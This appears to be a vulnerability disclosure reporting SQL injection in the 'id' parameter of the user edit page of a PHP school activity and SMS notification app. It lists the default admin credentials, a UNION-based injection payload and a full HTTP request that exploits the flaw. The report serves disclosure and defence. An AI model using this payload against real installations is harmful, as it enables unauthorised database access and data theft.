 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: Moye

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/user/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/user/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload:  /activity/admin/modules/user/index.php?view=edit&id=-4%27%20union%20select%201,database(),3,4,5--+ // Leak place ---> id

```sql
GET /activity/admin/modules/user/index.php?view=edit&id=-4%27%20union%20select%201,database(),3,4,5--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183560462-3d541544-03b5-4760-b1ad-14ba41289c3c.png)
